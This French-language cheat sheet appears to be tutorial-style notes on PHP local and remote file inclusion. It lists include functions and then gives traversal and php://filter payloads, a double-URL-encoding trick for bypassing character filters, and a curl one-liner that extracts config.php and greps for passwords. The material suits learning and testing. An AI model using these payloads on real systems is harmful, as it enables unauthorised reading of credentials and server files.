 ### Injection de fichiers
Fonction | Description 
:- |:-
include| Inclut et exécute le fichier spécifié en argument
include_once| Inclut et évalue le fichier spécifié durant l'exécution du script. Le comportement est similaire à include, mais la différence est que si le code a déjà été inclus, il ne le sera pas une seconde fois, et include_once retourne TRUE
require| Identique à include mis à part le fait que lorsqu'une erreur survient, il produit également une erreur fatale de niveau E_COMPILE_ERROR
require_once| Identique à require mis à part que PHP vérifie si le fichier a déjà été inclus, et si c'est le cas, ne l'inclut pas une deuxième fois

L'injection de fichier consiste à passer à un variable (qui attend un fichier et qui sera en général traité par une des fonctions ci-dessus) un fichier qui correspond souvent à une section demandée. Il est possible d'injecter deux type de fichier:
* Un fichier local, on parle alors de LFI - Local File Inclusion
* Un fichier disant présent sur un serveur FTP ou HTTP, on parle alors de RFI - Remote File Inclusion

#### LFI
Le fichier inclu est interprété, on peut donc exécuté un script admin comme suit:

    ?inc=../admin
    ?inc=../admin&arg=value
Ou encore extraire un fichier de config encodé en base64 par exemple:

    ?inc=php://filter/read=convert.base64-encode/resource=config.php

Le serveur peut se prémunir de cette attaque en bloquant les caractère `.` et `/`. Il faut donc les remplacer par l'encodage:

    : => %3A
    . => %2E
    / => %2F
    = => %3D
    - => %2D
Puis en remplacant `%` par son encodage `%25` on a :

    : => %253A
    . => %252E
    / => %252F
    = => %253D
    - => %252D
Ce qui permet de transformer

    ?inc=php://filter/read=convert.base64-encode/resource=config.php
en

    page=php%253A%252F%252Ffilter%252Fconvert%252ebase64%252dencode%252Fresource%253Dconfig%252Ephp

Pour tout obtenir en une ligne

    curl http://domain.com/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252ebase64%252dencode%252Fresource%253Dconfig%252Ephp | base64 -d | grep password
